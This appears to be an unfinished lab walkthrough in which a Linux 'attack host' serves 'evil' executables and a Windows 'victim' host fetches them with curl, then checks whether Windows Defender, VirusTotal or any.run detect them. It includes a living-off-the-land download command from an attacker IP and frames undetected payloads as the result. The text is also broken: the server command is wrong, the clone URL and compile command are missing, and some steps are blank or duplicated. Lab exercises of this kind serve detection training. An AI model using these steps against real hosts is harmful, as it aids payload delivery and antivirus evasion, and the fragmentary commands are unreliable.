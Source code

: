 # Detection

## Host the "evil" files.

1. First record your IP address on the eth0 interface. `ip addr`
2. Now change directory into the notransomware directory.
3. Run the following command to serve the files for download.
`python3 -m httpserver`

## Download the "evil" files.

1. Switch to the "WIN-VICTIM-HOST-#" by pressing ctrl+shift+alt.
2. Do some pre-flight checks, you can access all the required programs by clicking the search bar in the bottom left and typing their respective names. When they appear in the start menu results, double click them.
- Is a folder on the desktop called? (If not, launch a command prompt and run `git clone `)
- Is firefox installed? (If not, launch a command prompt and run `choco install firefox`)
3. Open a command prompt. 
4. Run the following command with my new favorite living off the land binary for dowloading remote files. 
`curl http://172.31.24.<last octet of your linux attack host>:8000/test1.exe -o test1.exe`
5. Once you have this worked out, download all theo ther files you created on the linux attack host just changing the file names.
6. This is your first detection example...no alerts from windows defender.

## What does virust total have to say about all this?

1. Open firefox and browse to virus total.  www.virustotal.com
2. 

curl http://172.31.24.###:8000/test1.exe -o test1.exe

Open firefox browse to virustotal and upload



## compile the code

1. In vscode's terminal
2. Run this command to compile into an executable binary.
3. upload sample to virus total.
4. upload to any.run
5. upload anywhere else you like and analyze detections or lack there of

